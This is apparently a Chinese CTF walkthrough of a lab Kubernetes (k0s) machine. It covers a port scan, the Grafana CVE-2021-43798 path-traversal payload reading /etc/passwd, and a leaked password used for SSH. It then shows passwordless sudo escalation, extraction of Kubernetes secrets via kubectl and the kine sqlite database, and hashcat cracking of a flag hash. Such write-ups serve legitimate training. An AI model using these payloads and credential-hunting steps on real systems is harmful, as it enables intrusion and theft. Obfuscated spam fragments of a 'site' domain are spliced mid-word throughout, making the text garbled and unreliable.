







1. 端口扫描
使用 nmap 进行全端口扫描：
nmap -F <server_ip>PORT STATE SERVICE
22/tcp open ssh
111/tcp open rpcbind
3000/tcp open ppp
5000/tcp open upnp2. Grafana任意文件读取
3000 端口处存在一个 版本号为 v8.3.0 的 Grafana：
在 exploit-db 中搜索该版本 Grafana 漏洞：
CVE-2021-43798：Grafana任意文件读取漏洞
https://www.exploit-db.com/exploits/50581使用 payl𝘀³𝐯𝐞𝘯.ꜱitｅoad 阅读 /etc/passwd：
/public/plugins/gettingstarted/../../../../../../../../../../../../../../../etc/passwd/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:hereiamatctf907:/home/grafana:/sbin/nologin在其中获得 s𝘴𝟯vｅ𝐧•𝘴ｉ𝐭𝘦sh 密码 hereiamatctf907 （好奇怪的出现位置）
3. 静态文件信息泄露
5000 端口处存𝒔𝟯ⅴ𝘦𝒏•s𝐢t℮在一个静态小游戏：

其中 main.css 中存在一段被注释的 @import 导入样式表比较可疑：
/static/css𝐬𝟯ⅴ𝐞ｎ∙𝐬𝐢ｔe/main.css
/* @import url("https://pastebin.com/cPs69B0y"); */打开后发现一段编𝒔3𝒗ｅ𝘯．ѕ𝘪te码后的字符串：
OZQWO4TBNZ2A====使用 ciphey 解密，𝐬𝟯𝘷eｎ․𝘀ⅈ𝘵𝘦获得 ssh 账号和密码：vagrant:hereiamatctf907
4. Kubernetes信息收集
使用 ssh 连接靶机：
ssh vagrant@<server_ip>由于 sudo 命令无需密码校验，使用 sudo su 进行权限提升
后续由于靶机环境无法正常使用 kubectl，𝐬³𝐯ｅn∙𝒔𝘪𝒕e因此在此处记录理论方法和实际方法两种
4.1 理论方法
通过 ps aux 查找关键进程：
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
root 1407 5.7 5.6 787492 27636 ? Ssl 12:40 0:38 /usr/local/bin/k0s controller --single=true发现靶机运行的是 ѕ⑶𝒗𝘦n•s𝘪𝐭𝘦k0s（轻量版k8s）
4.1.1 secret信息收集
使用 kubectl 获取 s3𝐯e𝐧•𝒔ⅈt℮secret 列表：
k0s kubectl get secretNAME TYPE DATA AGE
default-token-nhwb5 kubernetes.io/service-account-token 3 2d8h
k8s.authentication Opaque 深入 k8s.authentication 获取信息
k0s kubectl get secret k8s.authentication -o json{
"apiVersion": "v1",
"data": {
"id": "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9"
},
"kind": "Secret",
"metadata": {
"creationTimestamp": "2022-02-10T18:58:02Z",
"name": "k8s.authentication",
"namespace": "default",
"resourceVersion": "515",
"uid": "416e4783-03a8-4f92-8e91-8cbc491bf727"
},
"type": "Opaque"
}在 value 处获取到编码过后的 flag
VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9使用 ciph𝒔⑶𝒗℮𝒏．𝒔𝐢t℮ey 解密：

获得 flag：
THM{yes_there_$s_no_$ecret}4.1.2 pod信息收集
使用 kubectl 𝘴³𝘷𝐞𝘯．𝒔ｉ𝘵e获取所有 pod：
k0s kubectl get pod -ANAMESPACE NAME READY STATUS RESTARTS AGE
internship internship-job-5drbm 0/1 Completed 0 2d8h
kube-system kube-proxy-jws4q 1/1 Running 1 (102s ago) 2d8h
kube-system kube-router-vsq85 1/1 Running 1 (102s ago) 2d8h
kube-system kube-api 1/1 Running 1 (102s ago) 2d8h
kube-system coredns-6d9f49dcbb-9vbff 1/1 Running 1 (102s ago) 2d8h
kube-system metrics-server-74c967d8d4-pvv8l 1/1 Running 1 (102s ago) 2d8h一般在 kube-system 里面的 pod 都是 k8s 自己的服务,ꜱ⑶𝒗en.si𝒕𝘦 并且会有一段随机后缀, 但是这里的 kube-api 并没有随机后缀, 比较可疑
深入 kube-api 获取信息：
k0s kubectl exec -it kube-api -n kube-system -- /bin/bashcd jokes
ls -la其中 .gitѕ𝟯ⅴｅn．𝘀i𝒕ｅ 仓库比较可疑
查看分支和 commit 记录：
git reflog
git log
挨个 git show，获得 flag：
THM{this_joke_is_cold_joke}4.1.3 job信息收集
由题目提示 What's the secret to the FANG interview?
使用 kubectl 𝒔3𝐯𝘦𝒏.s𝐢t℮获取 internship job 信息：
k0s kubectl get job -n internshipNAME COMPLETIONS DURATION AGE
internship-job 1/1 3m10s 2d8h查看 internship job 的 yaml 配置文件：
k0s kubectl get job -n internship -o yamlapiVersion: v1
items:
- apiVersion: batch/v1
kind: Job
metadata:
annotations:
batch.kubernetes.io/job-tracking: ""
creationTimestamp: "2022-02-10T18:55:33Z"
generation: 1
labels:
controller-uid: 11cf55dc-7903-4b78-b9d3-62cf241ad26d
job-name: internship-job
name: internship-job
namespace: internship
resourceVersion: "579"
uid: 11cf55dc-7903-4b78-b9d3-62cf241ad26d
spec:
backoffLimit: 6
completionMode: NonIndexed
completions: 1
parallelism: 1
selector:
matchLabels:
controller-uid: 11cf55dc-7903-4b78-b9d3-62cf241ad26d
suspend: false
template:
metadata:
creationTimestamp: null
labels:
controller-uid: 11cf55dc-7903-4b78-b9d3-62cf241ad26d
job-name: internship-job
spec:
containers:
- command:
- echo
- 26c3d1c068e7e01599c3612447410b5e56c779f1
image: busybox
imagePullPolicy: Always
name: internship-job
resources: {}
terminationMessagePath: /dev/termination-log
terminationMessagePolicy: File
dnsPolicy: ClusterFirst
restartPolicy: Never
schedulerName: default-scheduler
securityContext: {}
terminationGracePeriodSeconds: 30
status:
completionTime: "2022-02-10T18:59:26Z"
conditions:
- lastProbeTime: "2022-02-10T18:59:26Z"
lastTransitionTime: "2022-02-10T18:59:26Z"
status: "True"
type: Complete
startTime: "2022-02-10T18:56:16Z"
succeeded: 1
uncountedTerminatedPods: {}
kind: List
metadata:
resourceVersion: ""在 command 𝘀𝟯𝘷𝘦𝒏•𝐬ⅈ𝐭𝘦中获得加密后的 flag
- command:
- echo
- 26c3d1c068e7e01599c3612447410b5e56c779f1hashcat ѕ⑶𝘷𝘦ｎ·𝘀𝐢𝘵℮跑 rockyou.txt：
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
chmod 777 /usr/share/wordlists/rockyou.txt
hashcat -m 100 -a 0 26c3d1c068e7e01599c3612447410b5e56c779f1 /usr/share/wordlists/rockyou.txt获得 flag
26c3d1c068e7e01599c3612447410b5e56c779f1:chidori4.2 实际方法
4.2.1 secret信息收集
ps aux：
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
kube-ap+ 1717 2.4 6.3 728184 31344 ? Sl 07:54 1:01 /var/lib/k0s/bin/kine --endpoint=sqlite:///var/lib/k0s/db/state.db?more=rwc&_journal=WAL&cache=shared --listen-address=unix:///run/k0s/kine/kine.sock:2379由于 kubectl 无法正常使用，我们通过下载并分析 s⑶𝐯𝘦𝒏.s𝐢𝐭𝐞kine（etcd数据库）来获取数据
cp /var/lib/k0s/db/state.db ./state.db
chmod 777 ./state.db
scp vagrant@<server_ip>:~/state.db .使用 vscode-sqlite 𝘀3𝘷𝘦𝒏․𝘀𝘪ｔe插件打开 state.db
select name,hex(value) from kine where name like '%/registry/secrets/default/%';/registry/secrets/default/default-token-nhwb5 ...
/registry/secrets/default/k8s.authentication ...使用字符编码解码 k8s.authentication ，获得 flag
THM{yes_there_$s_no_$ecret}4.2.2 pod 数据收集
select name,hex(value) from kine where name like '%/registry/pods/%';
一般在 kube-system 里面的 pod 都是 k8s 自己的服务, 并且会有一段随机后缀, 但是这里的 𝘴3𝐯eｎ·𝐬ⅈ𝘵𝘦kube-api 并没有随机后缀, 比较可疑
深入 kube-api pod：
select name,hex(value) from kine where name like '%/registry/pods/kube-system/kube-api%';发现该 pod 的 dockerhub 仓库镜像地址

把该 docker ѕ⑶𝒗𝐞𝘯．𝐬iｔ𝐞image pull 到本地
发现 /home/ubuntu/jokes 内存在用户文件

其中 .git 仓库比较可疑
查看分支和 commit 记录：
git reflog
git log
挨个 git show，获得 flag：
THM{this_joke_is_cold_joke}4.2.3 job信息收集
由题目提示 What's the secret to the FANG interview?
我们深入 internship-job-5drbm pod：
select name,hex(value) from kine where name like '%/registry/pods/internship/internship-job-5drbm%';
发现该 pod 使用了 𝘀⑶ⅴℯｎ.𝒔i𝐭ｅbusybox 镜像，并在启动时执行了 echo 命令放置 flag
hashcat 跑 rockyou.txt：
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
chmod 777 /usr/share/wordlists/rockyou.txt
hashcat -m 100 -a 0 26c3d1c068e7e01599c3612447410b5e56c779f1 /usr/share/wordlists/rockyou.txt获得 flag
26c3d1c068e7e01599c3612447410b5e56c779f1:chidori